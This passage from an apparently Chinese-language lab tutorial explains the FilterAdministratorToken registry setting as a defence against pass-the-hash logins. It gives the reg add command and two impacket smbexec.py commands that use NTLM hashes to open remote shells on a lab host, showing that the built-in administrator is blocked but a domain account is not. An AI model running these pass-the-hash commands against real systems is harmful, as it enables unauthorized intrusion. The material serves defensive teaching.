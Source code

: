 ![截图](a28f9146bdfb5f2a9b02202dfd5482cc.png)

***因此如果网络管理员想禁止内置的管理员账号 administrator 进行远程连接时得到具有管理员凭证的令牌，可以执行如下命令将 FilterAdministratorToken 注册表值设置为 1。***

```
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /d 1 /f
```

如图将 FilterAdministratorToken 注册表值设置为 1。

![截图](3ef543e85937a8a77cf61666d1e66d26.png)

再次执行如下命令使用内置的 administrator 账号和域账号进行哈希传递攻击

```
python3 smbexec.py administrator@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9
python3 smbexec.py xie/hack@10.211.55.13 -hashes aad3b435b51404eeaad3b435b51404ee:b98e75b5ff7a3d3ff05e07f211ebe7a8
```

如图所示，可以看到内置的 administrator 账号哈希传递失败，但是域账号不受此值影响！

![截图](2f7a5a0da763d7b25b028c6aee7feb47.png)
